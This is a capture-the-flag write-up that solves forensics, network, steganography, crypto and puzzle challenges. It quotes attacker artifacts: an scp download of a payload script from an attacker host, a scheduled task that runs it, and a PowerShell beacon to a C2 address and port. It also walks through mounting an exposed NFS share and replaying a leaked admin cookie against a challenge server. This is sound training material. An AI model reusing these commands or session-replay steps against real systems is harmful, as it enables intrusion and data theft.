> *Identify the De Monne employee account DEADFACE compromised.* `deadface{username}`.

The image is from the compromised user's own workstation, so that profile dominates:

```bash
7z x memory.7z -omemdump && cd memdump
strings -el memory.raw | grep -oE 'C:\\Users\\[A-Za-z0-9._-]+' | sort | uniq -c | sort -rn | head
#   ~14,500  C:\Users\nkessler          <-- dominant real profile
#        …   C:\Users\Public / Default / defaultuser0 / Administrator  (Windows defaults, ~4 each)
```

Corroboration — the only reference to the corporate domain in the whole image is an SSH key tied to that user:

```bash
strings -el memory.raw | grep -i demonne
# ssh-keygen.exe -t ed25519 -C nkessler@demonnefinancial.com
```

Two independent signals (dominant home directory + company-email SSH key) → account **nkessler**.

> 🚩 **Flag:** `deadface{nkessler}`

### The Workstation in the Middle — `deadface{DMF-WS11-042}` ✅

> *Identify the hostname of the affected workstation.*

Windows caches the hostname in the `COMPUTERNAME` environment variable:

```bash
strings -el memory.raw | grep -m5 '^COMPUTERNAME='
# COMPUTERNAME=DMF-WS11-042
```

Casing check — uppercase is correct (DNS also stores a lowercase form):

```bash
strings -el memory.raw | grep -oiE 'dmf-ws11-042' | sort | uniq -c
#   ~14,000  DMF-WS11-042     (uppercase — the env var form)
#      ~140  dmf-ws11-042     (lowercase — DNS form)
```

Naming scheme: **D**e **M**onne **F**inancial · **WS11** (Windows 11 workstation) · **042**.

> 🚩 **Flag:** `deadface{DMF-WS11-042}`

### Mistyped Hostname — `deadface{dmf-fiels-01}` 🟡

> *Identify one mistyped server hostname* Nathan's box tried to reach.

The correctly-spelled target `dmf-files-01` appears **nowhere** — only two misspellings do, used in UNC paths, HTTP `Host:` headers and SMB lookups:

```bash
strings -a -el memory.raw | grep -oiE 'dmf-[a-z0-9-]+' | sort | uniq -c | sort -rn
#   ~225  dmf-field-01     (\\dmf-field-01\executive, http://dmf-field-01/executive, Host: dmf-field-01)
#   ~100  dmf-fiels-01     (\\dmf-fiels-01, http://dmf-fiels-01/executive, Host: dmf-fiels-01)
#      3  dmf-fiel-01      (partial-typing fragment)
```

The challenge wants **one** mistyped hostname; both are typos of "files." `dmf-fiels-01` is the cleaner "files" typo and is the primary answer; **fallback** `dmf-field-01`.

> 🚩 **Flag:** `deadface{dmf-fiels-01}` (fallback: `deadface{dmf-field-01}`)

### Hidden in Plain Task — scheduled-task name, 75 pts

```bash
vol -f memory.raw windows.filescan | grep -i "System32\\\\Tasks"
```

```text
0xe305c6358b30  \Windows\System32\Tasks\WindowsTelemetryCheck               <- flat in root (attacker)
0xe305c8b84b40  \Windows\System32\Tasks\Microsoft\Windows\PushToInstall\... <- genuine (namespaced)
```

Real Microsoft tasks nest under `\Tasks\Microsoft\Windows\...`; a flat task mimicking telemetry is the attacker's.

> 🚩 **Flag:** `deadface{WindowsTelemetryCheck}`

### Cache Money — the script path, 150 pts

`windows.dumpfiles` on the task object returns empty (stale pool), so carve raw memory:

```bash
strings -a -t d memory.raw | grep -i "WindowsTelemetryCheck"
# 1357672689  Register-ScheduledTask -TaskName 'WindowsTelemetryCheck' ...
dd if=memory.raw bs=1 skip=$((1357672689 - 2000)) count=3000 2>/dev/null | strings
```

```text
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-NoProfile -File C:\ProgramData\WindowsCache\telemetry.ps1'
```

`C:\ProgramData\` is real, but `WindowsCache\` is a fake vendor folder.

> 🚩 **Flag:** `deadface{C:\ProgramData\WindowsCache\telemetry.ps1}`

### Borrowed Script — who supplied the payload, 100 pts

Console history lives in RAM as UTF-16LE (`strings -e l`):

```bash
strings -a -e l -t d memory.raw | grep -n -B30 "Register-ScheduledTask -TaskName 'WindowsTelemetryCheck'" | head -80
# scp d34th@10.77.10.66:/home/d34th/telemetry.ps1 C:\ProgramData\WindowsCache\
vol -f memory.raw windows.netstat | grep "10.77.10.66"
# TCPv4  10.77.10.20  22  10.77.10.66  50742  ESTABLISHED
```

> 🚩 **Flag:** `deadface{d34th@10.77.10.66}`

### False Telemetry — the beacon, 250 pts

The script was blocked by execution policy (Event 4100) so it's not in 4104 logs; it was `scp`'d from Linux so it's **8-bit ASCII** in RAM, not UTF-16:

```bash
strings -a memory.raw | grep -n -B12 -A12 "167.172.132.224"
```

```text
for ($i = 0; $i -lt 24; $i++) {
    Test-NetConnection -ComputerName 167.172.132.224 -Port 4815 -InformationLevel Quiet | Out-Null
    Start-Sleep -Seconds 30
}
```

> 🚩 **Flag:** `deadface{167.172.132.224_4815_30}`

### Uninvited Guest — first PDF from the exec share, 25 pts

```bash
tshark -r demonne.pcap -Y "smb2.filename" -T fields -e frame.number -e smb2.filename -e smb2.cmd
```

```text
7404  annual_report.pdf             Create
7409  annual_report.pdf  Len:560360 Read
8321  executive_risk_register.xlsx  Create
```

> 🚩 **Flag:** `deadface{annual_report.pdf}`

### Crown Jewels — ZIP exfiltration, 75 pts

```bash
tshark -r demonne.pcap -Y "tcp.payload contains 50:4b:03:04" \
  -T fields -e frame.time -e ip.src -e ip.dst -e tcp.dstport
```

```text
15:07:39  10.77.10.30  10.77.10.66       52682     <- internal .xlsx (OOXML is a ZIP) false positive
15:18:54  10.77.10.66  167.172.132.224   4815      <- real exfil (public IP, odd port)
```

**Verification:** C2 `167.172.132.224:4815` is consistent between this ZIP-exfil find and the False Telemetry beacon above.

> 🚩 **Flag:** `deadface{167.172.132.224_4815}`

---

## Part V — File Dump: Daniel's Stolen Identity

**Artifact:** `File_Dump_Challenge.zip` — Office documents + images about victim *Daniel Hameser*. Office files are ZIP containers, so metadata is read via `exiftool` or `unzip -p file.docx docProps/core.xml`.

### File Dump 01 — which DEADFACE member? — `deadface{gh0st404}` ✅

> *Identify which DEADFACE member impersonated Daniel.* `deadface{deadface alias}`.

**Chain of evidence:**

1. **Document metadata points at a handle.** Every file about Daniel was authored by `ghostwriter404` on computer `GHOST404-PC`:
   ```bash
   exiftool -Creator -LastModifiedBy -Title *.docx *.xlsx
   # resume.docx / invoice.xlsx / notes.docx  →  Creator: ghostwriter404 ;  notes.docx → GHOST404-PC
   ```
   `notes.docx` even contains the identity-theft plan: *"keep the Hameser accounts consistent across sites… reroute the rest."*
2. **A planted steghide passphrase.** `reminders.docx`'s Description field: `backup passphrase: n0rth_st4r (do not lose)`.
3. **Steghide on the only JPG** unlocks credentials:
   ```bash
   steghide extract -sf office_memory_meme.jpg -p n0rth_st4r
   # -> USERNAME: ghost404
   #    PASSWORD: DumpingFiles4funDaily
   ```
4. **Map to the official alias.** The GhostTown member list uses leetspeak (`d34th`, `mort1cia`), and the matching member is **`gh0st404`** (zero, lowercase) — not `GHOST404`/`ghost404`, which is why case-sensitive submissions of those were rejected.

> ℹ️ **Note:** keep `DumpingFiles4funDaily` — it's the FTP password (`45.79.200.170:21`) used again later in File Dump.

> 🚩 **Flag:** `deadface{gh0st404}`

---

## Part VI — Steganography & Metadata

### Headshots — `deadface{b00m_h34Dsh0TTT}` ✅

> *DEADFACE tagged corporate headshots with hidden info.*

```bash
unzip headshot.zip -d headshots && exiftool -Comment headshots/*.png
# headshot001.png  (no Comment)
# headshot002.png  (no Comment)
# headshot003.png  Comment : deadface{b00m_h34Dsh0TTT}
```

Two tells confirmed `003` was the tampered file: it's the only one with a PNG `Comment`/`tEXt` chunk, and the zip also contained `headshot003.png_original` — the backup file name exiftool creates when you edit metadata with it. (Toolless fallback: `strings headshots/*.png | grep -i deadface`.)

> 🚩 **Flag:** `deadface{b00m_h34Dsh0TTT}`

### Exfiltration — `deadface{timing-is-everything}` ✅

> *20 JPGs; find the hidden message.*

1. Reassembled in a 5×4 grid, the 20 images form an ordinary nature collage → the payload is **not** in the picture.
2. `exiftool` shows two per-image fields that vary: `DateTimeOriginal` (distinct times on 2026-06-01) and `ImageUniqueID` of the form `IMG_<hex>` (e.g. `IMG_6465` → bytes `64 65` = "de"; `IMG_7b` → "{").
3. In **file-name order** the hex is nonsense; sorted by **timestamp** it reads cleanly — the title *timing-is-everything* is the hint:

```bash
unzip exfiltration.zip -d exf && cd exf
exiftool -T -DateTimeOriginal -ImageUniqueID *.jpg | sort | awk '{print $3}' \
  | sed 's/IMG_//' | tr -d '\n' | xxd -r -p
# deadface{timing-is-everything}
```

> 🚩 **Flag:** `deadface{timing-is-everything}`

### Printer Tracking Dots — `deadface{NVU-PRINT-17}` ✅
*75 pts · Author: @G2Gh0st*

> *Identify the asset that created the document. Common steg tools won't work.*

This challenge was solved twice from two angles — our own team's concise run and a fuller community account ("Conduct Unbecoming," solved by Cookie Vampire of NightHAX) — and both land on the same flag by the same core method, so they're merged here.

**Our run** (artifact `Doc_20261017_0915.jpg`, "NVU Conduct Notice"): metadata showed only Affinity Photo, and steghide/binwalk/appended-data checks were all negative. The page *looks* white, but amplifying the deviation from pure white reveals a faint dot matrix bottom-right (a homage to real printers' yellow tracking dots):

```bash
python3 -c "from PIL import Image; import numpy as np
a=np.asarray(Image.open('Doc_20261017_0915.jpg').convert('RGB')).astype(int)
d=255-a.min(axis=2)                       # distance from white
Image.fromarray((255-np.clip(d*20,0,255)).astype('uint8')).save('dots.png')"
```

| Original scan | Enhanced (dots revealed) |
|---|---|
|  |  |

The grid is 8 columns × 13 rows: the top row is all-dots (sync marker); each subsequent row is one 8-bit ASCII char (dot = 1, gap = 0):

```
01001110 N   01010000 P   01010100 T
01010110 V   01010010 R   00101101 -
01010101 U   01001001 I   00110001 1
00101101 -   01001110 N   00110111 7
```

Read down the columns → `NVU-PRINT-17`.

> 🚩 **Flag:** `deadface{NVU-PRINT-17}`

**Community write-up detail (@G2Gh0st / Cookie Vampire, "Conduct Unbecoming")** — included here for its clearer explanation of *why* each step works, independently confirming the same flag from the same file (SHA-256 `6e7809f4…e44f1ba`):

- The challenge asks for the asset-id used to *create* the document (the device, not the person), and the card art is a printer — so the working theory from the start was a specific printer's identity.
- Two EXIF details made the tracking-dot theory concrete before any dot was visible: the image is exactly 2550×3300 px (8.5×11in @ 300 DPI — made to look like a printed letter-size page), and it uses **YCbCr 4:4:4** chroma subsampling rather than the usual 4:2:0 — unusual, and exactly what's needed to preserve tiny yellow dots through JPEG compression instead of smearing them away.
- `strings`, `binwalk`, and `steghide extract` (empty passphrase) all came up empty — ruling out the common hiding spots before committing to the tracking-dot theory.
- Yellow ink reflects red/green and absorbs blue, so isolating the **blue channel** turns near-invisible yellow dots dark against bright paper:
  ```bash
  convert night_veil.jpg -crop 300x300+2200+2950 -channel B -separate -normalize -scale 400% dots.png
  ```
  (crop to the bottom-right corner near "Page 1 of 1," isolate blue, stretch contrast, then enlarge 4× — each step chosen for a specific reason rather than run blind.)
- The top all-dots row works as an alignment marker (matching real printer tracking-dot patterns), and every decoded byte's first bit is 0 — consistent with standard ASCII (0–127), confirming the binary-grid theory before even reading the letters.
- One dot (in the "I" row) was faint in the zoomed capture; reading it as blank gave an uppercase `I`, which fit the all-caps pattern of the rest of the tag and was accepted on the first submission.

### Keep Digging — `deadface{D1g_d0wN_D33p!}` 🟡

> *Hidden info in an image; our common stego tools don't work. Determine WHERE the flag is hidden.*

**Why common tools fail (the whole point).** `keep_digging.jpg` is an Adobe-exported **progressive JPEG**. steghide, zsteg, jsteg, F5 and outguess all mishandle progressive JPEGs — that's the literal meaning of "none of our common tools seem to work."

**Locating the payload.** libjpeg emits "extraneous bytes before marker 0xda." A clean progressive JPEG produces 0 such bytes; this file has injected bytes before **all seven** scan (SOS) markers. Verified with a decode-identical test — deleting those pre-marker bytes doesn't change the rendered image, proving they're ignored by the decoder and therefore deliberately injected:

```
boundary bytes injected (per scan): 798, 263, 454, 644, 231, 1973, 2000+   (clean JPEG: 0 at every boundary)
```

**Extraction.** The 7 injected regions are the scan data of a **second, hidden progressive JPEG**. Reconstructing it from the carrier's headers plus each SOS header followed by its injected region produces a 448×670 image with the flag drawn across the top — carried in the **chroma** channels, which is why luma-only renders looked blank:


*Reconstructed hidden image — the flag is drawn in the chroma channels.*

> 🚩 **Flag:** `deadface{D1g_d0wN_D33p!}` ("dig down deep"; ambiguous glyph is 3/3 — fallback `deadface{D1g_d0wN_DB3p!}`)

### DOOM (bonus) — `deadface{let5_play_d00m}` ✅

> *Play DOOM; the flag is obvious at the end.* `gzdoom -iwad freedoom2.wad -file MAP01.wad`.

**Solved without playing.** `strings MAP01.wad` finds no flag, so it isn't stored as text. The WAD directory lists only level geometry (`THINGS, LINEDEFS, SIDEDEFS, VERTEXES, SECTORS`) → the flag is **drawn with walls**. Render the map top-down from two lumps:

```python
import struct; from PIL import Image, ImageDraw
d = open("MAP01.wad","rb").read()
# directory gives: VERTEXES @129498 size6892 (int16 x,y);  LINEDEFS @1752 size25536 (7×uint16; [0]=start,[1]=end)
V = [struct.unpack("<hh", d[129498+4*i:129502+4*i]) for i in range(6892//4)]     # 1723 points
L = [struct.unpack("<7H", d[1752+14*i:1766+14*i])   for i in range(25536//14)]   # 1824 walls
xs=[v[0] for v in V]; ys=[v[1] for v in V]
minx,maxx,miny,maxy=min(xs),max(xs),min(ys),max(ys); s=4000/max(maxx-minx,maxy-miny)
img=Image.new("RGB",(int((maxx-minx)*s)+20,int((maxy-miny)*s)+20),"white"); dr=ImageDraw.Draw(img)
px=lambda v:((v[0]-minx)*s+10,(maxy-v[1])*s+10)                                  # flip Y: Doom Y points up
for l in L: dr.line([px(V[l[0]]),px(V[l[1]])],fill="black",width=2)
img.save("map.png")
```


*MAP01 rendered top-down — a room on the east side spells the flag in walls.*

A room on the east side spells the flag in a blocky wall-font. Zooming into just that room settles the two characters that are easy to misread at full-map scale — the glyph after "Let" has a flat top and a curved foot (a **5**, not an **S**), and the two characters before the closing brace are small filled squares distinct from the round-ish lowercase "o" used earlier in "Play" (consistent with leetspeak **0 0**, not letters):


*Zoomed crop of the in-wall flag text: "DEadFace{Let5_Play_D00m}".*

> 🚩 **Flag:** `deadface{let5_play_d00m}`

> ℹ️ **Note on a reading discrepancy:** an earlier pass transcribed this as `deadface{Lets_Play_Doom}` (no leetspeak, fallback `deadface{lets_play_doom}`) when reading the full map at normal zoom. Re-cropping and enlarging just the flag text (above) shows the "5" and the blocky "00" clearly enough to be confident the leetspeak reading is correct; both were submitted during the event and `let5_play_d00m` is the one we're confident in from direct re-inspection. Easier alternatives for next time: open the WAD in SLADE/Doom Builder, or just use the in-game `iddt` automap cheat.

### Art Heist: The Forgery — Forensics, 25 pts

5 PNGs; diff the metadata:

```bash
for f in *.png; do echo "=== $f"; exiftool -a -u -g1 "$f"; done
```

`Painting_002` is the odd one out (`Software: LAMIA Restoration Utility 0.0.13`, only `Comment` chunk, 2026 modify date); the flag is in its XMP **Identifier** field.

> 🚩 **Flag:** `deadface{L4MIA_SIGNS_HER_WORK}`

---

## Part VII — Crypto & Logic

### Hail Caesar — 5 pts
*SYYNTAX · CRYPTO — by @syyntax*

A sticky note photographed on a professor's monitor at Night Veil University, written in a simple Caesar shift. Testing shift values against the readable fragments ("My dog's name is ...") lands on a +13 shift (ROT13): `Zl qbt'f anzr vf Srgpu` → *My dog's name is Fetch*.

> 🚩 **Flag:** `deadface{Fetch}`

### Infrequent Emojis — 50 pts
*@CYAN · CRYPTO — by @Cyan*

"One of our experts claims the patterns point to it still being English but we don't know what it means." A social post full of emoji in place of letters, where each symbol's *frequency* matches standard English letter frequency — a textbook homophonic/frequency-analysis substitution rather than the Kaktovik-numeral red herring it resembles at a glance. Mapping the most frequent symbols to e/t/a/o/i/n etc. and iterating recovers:

> 🚩 **Flag:** `deadface{please_try_out_my_new_standard}`

### Decode-dle — `deadface{716}` ✅
**Category:** crypto / logic · 25 pts. A Mastermind-style 3-digit lock shown as five guess rows, each with "# correct & in place" / "# correct, wrong place."


*Decode-dle puzzle — five scored guesses.*

```python
import itertools
clues=[('863',0,1),('250',0,0),('168',0,2),('735',1,0),('687',0,2)]  # (guess, right_place, wrong_place)
def f(c,g):
    r=sum(a==b for a,b in zip(c,g))
    return r, sum(min(c.count(d),g.count(d)) for d in set(g))-r
print([''.join(t) for t in itertools.product('0123456789',repeat=3)
       if all(f(''.join(t),g)==(r,w) for g,r,w in clues)])   # -> ['716']
```

By hand: `250`="nothing correct" removes 2/5/0 → `735`="one right place" fixes **7** first → `168`="two wrong place" places **1** second & **6** third → unique code **716**.

> 🚩 **Flag:** `deadface{716}`

### Second Shift — `deadface{ctr_nonce_reuse_breaks_confidentiality}` ✅
**Category:** crypto · 90 pts. From `secondshift.zip`: `relay-heartbeat.json` (plaintext) + `relay-heartbeat.enc` + `relay-tasking.enc`.

**Vulnerability — AES-CTR keystream (nonce) reuse.** Both ciphertexts share an identical opening prefix. In counter mode, ciphertext = plaintext ⊕ keystream; reusing the nonce/counter reuses the keystream. With one message known in both forms, recover the keystream and decrypt the other:

```python
ks  = xor(heartbeat_plain, heartbeat_cipher)   # 250-byte keystream (drop JSON's trailing \n to align)
tsk = xor(tasking_cipher,  ks)                 # decrypt the second message
```

Decrypted tasking message:
```json
{"type":"tasking","target":"aurora-vpn","action":"stage-access","window":"00:30Z",
 "operator":"mort1cia",
 "note":"Use the backup tunnel. Archive bundle under DEADFACE{ctr_nonce_reuse_breaks_confidentiality} before exfil."}
```

Submitted lowercased to match the required format. (Also reveals the plot: mort1cia staging access to **aurora-vpn** — foreshadowing the Aurora challenges in Parts XII–XIII.)

> 🚩 **Flag:** `deadface{ctr_nonce_reuse_breaks_confidentiality}`

### ChessKey — `deadface{cH3ckM8_ch3s5_cryPt0}` ✅
**Category:** crypto. A PNG chessboard of letters plus ciphertext `nZ3ipU8_yy3p5_hvyKi0`.


*ChessKey board — one letter per square, used as a Vigenère key source.*

**Deriving the cipher.** The ciphertext keeps digits and `_`, so it's a letter-only substitution; `3` and `8` align with a likely plaintext start `ch3ckm8`. Under Vigenère that implies a key beginning `L S G F I`. Forum hint: the key = the board letters on the destination squares of Magnus Carlsen's moves in a specific game. `c4, g3, Bg2, Nf3` map (standard orientation, a8 top-left) to `L, S, G, F` — matching the derived fragment. That fingerprints the game as an **English Opening** Carlsen won: **Carlsen vs Indjic, 13 Jan 2026** (chess.com game 18263600). Full key from his moves:

| Move | c4 | g3 | Bg2 | Nf3 | Nh4 | Nf5 | Nc3 | d3 | g4 | Be4 | Nh6 | Rg1 | d4 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| Key letter | L | S | G | F | I | W | R | X | F | E | A | V | P |

**Decrypt.** Vigenère where only letters consume a key letter (digits and `_` pass through unchanged): `nZ3ipU8_yy3p5_hvyKi0` → `cH3ckM8_ch3s5_cryPt0` ("checkmate chess crypto"). Keep mixed case. (The two other 2026 Carlsen 1.c4 games produce gibberish, confirming the right game.)

> 🚩 **Flag:** `deadface{cH3ckM8_ch3s5_cryPt0}`

---

## Part VIII — PCAP / Network

### Twilight Zone Transfer — `deadface{dns_zone_transfer}` ✅
**Artifact:** `PCAP04.pcap`.

> *A misconfigured DNS server allowed an unauthorized AXFR.*

Frames 1–32: the attacker (10.10.14.9) brute-forces hostnames with one-off A queries against the DNS server 192.168.56.10. Frames 33–40: a TCP/53 connection carrying an **AXFR** (full zone transfer) for `deadface-cc.net` (query in frame 36; full zone in frame 37). Reading the records:

```bash
tshark -r PCAP04.pcap -Y 'dns.flags.response==1 && dns.qry.type==252'   # AXFR response
# ...  _flag.deadface-cc.net.  TXT  "deadface{dns_zone_transfer}"
```

> 🚩 **Flag:** `deadface{dns_zone_transfer}`

### Return to Sender — `deadface{http_exfil_sneaky_business}` ✅
**Artifact:** `PCAP03.pcap`.

> *A host is exfiltrating data disguised as ordinary web traffic.*

Nearly all traffic is decoy HTTP from 10.20.30.40 to `93.184.x.x` with legitimate-looking `Host:` headers (youtube/nytimes/github). The traffic that *doesn't belong* goes to **45.66.77.88** (`telemetry.deadface-cc.net`): five `POST /api/upload?seq=1..5`, each answered `OK`. The flag is split between the POST bodies and a custom header:

```
seq=1 body: ZGVhZGZh   seq=2: Y2V7aHR0   seq=3: cF9leGZp   seq=4: bF9zbmVh   seq=5: a3lf
  joined & base64-decoded  ->  deadface{http_exfil_sneaky_
X-Session-Id: YnVzaW5lc3N9   ->  base64 ->  business}
```

Concatenate → the flag.

> 🚩 **Flag:** `deadface{http_exfil_sneaky_business}`

### A Pirate's Life for Me: Part 1 — `deadface{X-M4rk5_th3_sp0t_I_gu355}` 🟡
**Artifact:** `pirateslife.7z` → `pirateslife.pcap` (514 MB, ~444k packets, SHA256 verified).

> *The barista reported someone using a browser they've never seen before… could just be light mode.*

Filtering HTTP requests isolates a single anomalous client (172.16.14.43) using a bespoke User-Agent `SunstalkerDFBrower/2.0 (Linux; Android 14)` — the "browser they've never seen" ("**Sun**stalker" = the *light-mode* pun). Three of its requests carry numbered custom headers, one per defaced site:

| Frame | Target | Header |
|---|---|---|
| 19114 | nightvaleuniversity.edu | `X-1-Trace-Part: deadface{X-M4rk5_` |
| 43516 | aurorahhs.com | `X-2-Mark: th3_sp0t_` |
| 56543 | birdsarejustbirds.gov | `X-3-Spot: I_gu355}` |

Joined 1→2→3 → `deadface{X-M4rk5_th3_sp0t_I_gu355}` ("X marks the spot, I guess").

> ℹ️ **Caveat:** a sibling "browser-identification" challenge in this series treats this exact string as a planted **decoy** (the "I guess" wink) and instead wants the real browser, which TLS fingerprinting (JA3 `424f…`, cipher order `1301,1303,1302`, Mozilla backend + DoH) identifies as **Firefox 154** behind the spoofed Android UA. For *Pirate's Life Part 1* the X-marks string is the intended answer; if the other part rejects it, submit the Firefox identity there.

> 🚩 **Flag:** `deadface{X-M4rk5_th3_sp0t_I_gu355}`

### Speak Friend and Enter (movie board) — `deadface{serve_me_up_a_flag}` ✅
**Target:** `170.187.156.131` (avoid port 8443 — that's Chatty Cathy, Part X). Also seen on the scoreboard as **"Spook-A-Thon."**

> *Jerry left the movie board more exposed than it should be. Find what he leaked and ask the server nicely for its secret.*

1. **Recon** — NFS is exposed:
   ```bash
   nmap -Pn -p- --min-rate 2000 170.187.156.131      # 80, 111(rpcbind), 2049(nfs), 8080(http)
   showmount -e 170.187.156.131                       # /home/retrobyte/Documents/srv/nfs  *   (world-mountable)
   ```
2. **The leak** — mount the share; it contains the board's websocket log:
   ```bash
   sudo mount -t nfs -o vers=3,nolock 170.187.156.131:/home/retrobyte/Documents/srv/nfs /mnt
   grep -iE "get_flag|admin|cookie|debug" /mnt/shared/spooky_board.log
   #  hidden/debug command:  get_flag   (a guest tried it -> "unauthorized … denied")
   #  admin session cookie:  s3ssion=adm1n-3f9a7c21b8d4e6f0
   ```
   The board page at `:8080` reveals the backend is a websocket on **8765** (`WS_URL` in its JS).
3. **"Ask nicely"** — reconnect to the websocket presenting the leaked admin cookie and send the hidden command:
   ```python
   import asyncio, json, websockets
   async def main():
       async with websockets.connect("ws://170.187.156.131:8765",
               additional_headers={"Cookie":"s3ssion=adm1n-3f9a7c21b8d4e6f0"}) as ws:
           await ws.send(json.dumps({"cmd":"get_flag"}))
           print(await ws.recv()); print(await ws.recv())
   asyncio.run(main())
   # {"type":"flag","flag":"deadface{serve_me_up_a_flag}"}
   ```

> 🚩 **Flag:** `deadface{serve_me_up_a_flag}`

